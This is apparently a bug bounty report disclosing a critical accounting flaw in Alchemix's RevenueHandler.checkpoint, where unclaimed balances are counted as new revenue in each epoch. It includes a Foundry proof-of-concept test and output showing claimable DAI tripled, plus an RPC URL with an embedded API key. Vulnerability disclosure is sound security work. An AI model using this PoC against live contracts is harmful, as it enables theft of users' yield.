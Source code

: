 # 31253 - \[SC - Critical] RevenueHandlercheckpoint isnt correctly

Submitted on May 15th 2024 at 20:16:14 UTC by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31253

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:

* Theft of unclaimed yield

## Description

## Brief/Intro

`RevenueHandler.checkpoint` isn't correctly when `tokenConfig.poolAdapter` is **0**, which cause `epochRevenues` record wrong number, so some users will claim more token than expected, and other user can't claim the tokens

## Vulnerability Details

`RevenueHandler.checkpoint` isn't correctly when `tokenConfig.poolAdapter` is **0**, which cause `epochRevenues` record wrong number, so some users will claim more token than expected, and other user can't claim the tokens

## Vulnerability Details

In [RevenueHandler.checkpoint](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L228-L268), if `tokenConfig.poolAdapter` is zero, `epochRevenues[currentEpoch][token] += amountReceived;` is used to update value, and `thisBalance` is equal to `IERC20(token).balanceOf(address(this))` **The issue is that `IERC20(token).balanceOf(address(this))` may contains the token that hasn't been claimed. In such case, it means that the amount will be added twice.**

```solidity
228     function checkpoint() public {
229         // only run checkpoint() once per epoch
230         if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
231             currentEpoch = (block.timestamp / WEEK) * WEEK;
232 
233             uint256 length = revenueTokens.length;
234             for (uint256 i = 0; i < length; i++) {
	...
244 
245                 uint256 thisBalance = IERC20(token).balanceOf(address(this));
246 
247                 // If poolAdapter is set, the revenue token is an alchemic-token
248                 if (tokenConfig.poolAdapter != address(0)) {
	...
258                 } else {
259                     // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
260                     amountReceived = thisBalance;  <<<--- thisBalance is IERC20(token).balanceOf(address(this));

261 
262                     // Update amount of non-alchemic-token revenue received for this epoch
263                     epochRevenues[currentEpoch][token] += amountReceived; <<<--- += is used here
264                 }
265 
266                 emit RevenueRealized(currentEpoch, token, tokenConfig.debtToken, amountReceived, treasuryAmt);
267             }
268         }
269     }
```

## Impact Details

`epochRevenues` isn't updated correctly in some case, so some users will claim more token than expected, and other user can't claim the tokens

## References

Add any relevant links to documentation or code

## Proof of Concept

Put the following code in `src/test/RevenueHandler.t.sol` and run

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/0TbY2mhyGA4gLPShfh-PwBlQ3PDNUdL1 --fork-block-number 17133822 --mc RevenueHandlerTest --mt testTwoCheckpoint -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testTwoCheckpoint() (gas: 2223762)
Logs:
  currentEpoch                    : 1686182400
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 1000000000000000000000
  currentEpoch                    : 1687392000
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 2000000000000000000000
  currentEpoch                    : 1688601600
  revenueHandler.epochRevenues    : 1000000000000000000000
  dai.balanceOf(revenueHandler)   : 1000000000000000000000
  revenueHandler.claimable        : 3000000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.07ms (2.69ms CPU time)

Ran 1 test suite in 1.22s (6.07ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see from the test, only `1000e18` DAI is transferred to `revenueHandler`, but the `tokenId` can claim 3000e18 DAI

```solidity
    function testTwoCheckpoint() external {
        uint256 currentEpoch;
        uint256 WEEK = 2 weeks;
        revenueHandler.setPoolAdapter(dai, address(0));

        uint tokenId = _initializeVeALCXPosition(10e18);

        _jumpOneEpoch();
        _jumpOneEpoch();
        _jumpOneEpoch();

        uint256 revAmt = 1000e18;
        _accrueRevenue(dai, revAmt);
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;

        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));

        _jumpOneEpoch();
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;
        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));

        _jumpOneEpoch();
        revenueHandler.checkpoint();
        currentEpoch = (block.timestamp / WEEK) * WEEK;
        console2.log("currentEpoch                    :", currentEpoch);
        console2.log("revenueHandler.epochRevenues    :", revenueHandler.epochRevenues(currentEpoch, dai));
        console2.log("dai.balanceOf(revenueHandler)   :", IERC20(dai).balanceOf(address(revenueHandler)));
        console2.log("revenueHandler.claimable        :", revenueHandler.claimable(tokenId, dai));
    }
```
